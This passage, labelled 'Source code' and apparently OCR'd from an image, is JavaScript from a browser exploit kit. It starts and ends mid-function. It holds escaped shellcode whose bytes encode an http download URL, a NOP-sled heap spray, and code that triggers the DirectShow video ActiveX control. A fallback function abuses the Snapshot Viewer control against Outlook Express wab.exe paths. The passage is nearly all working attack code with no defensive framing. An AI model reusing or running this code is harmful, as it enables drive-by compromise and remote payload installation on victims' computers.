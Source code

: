```c
		} catch(e){}
	directshow();
}

function directshow(){
	var shellcode=unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u343D");
	
	var bigblock=unescape("%u9090%u9090");
	var headersize=20;
	var slackspace=headersize+shellcode.length;
	while(bigblock.length<slackspace)
		bigblock+=bigblock;
	
	var fillblock=bigblock.substring(0,slackspace);
	var block=bigblock.substring(0,bigblock.length-slackspace);
	
	while(block.length+slackspace<0x40000){
		block=block+block+fillblock;
	}
	
	var memory=new Array();for(var i=0;i<350;i++){memory[i]=block+shellcode;}

	try{
		var obj=document.createElement('object');
		document.body.appendChild(obj);
		obj.width='1';obj.height='1';
		obj.data='./directshow.php';
		obj.classid='clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
		setTimeout("if (CheckIP()){ Complete(); } else { snapshot(); }",1000);
	} catch(e){ snapshot(); }
}

function snapshot(){
	var x;
	var obj;
	var mycars=new Array();
	
	mycars[0]='c:/Program Files/Outlook Express/wab.exe';
	mycars[1]='d:/Program Files/Outlook Express/wab.exe';
	mycars[2]='e:/Program Files/Outlook Express/wab.exe';
	
	try{
		var obj=new ActiveXObject('snpvw.Snapshot Viewer Control.1');
	} catch(e) { 
		try{var obj=document.createElement('object');
		obj.setAttribute('classid','clsid:F0E42D50-368C-11D0-AD81-00A0C90DC8D9');
		obj.setAttribute('id','obj');
		obj.setAttribute('width','1');
		obj.setAttribute('height','1');
		document.body.appendChild(obj);
	}catch(e){}}

	try{
		if(obj='[object]'){
			for(x in mycars){
```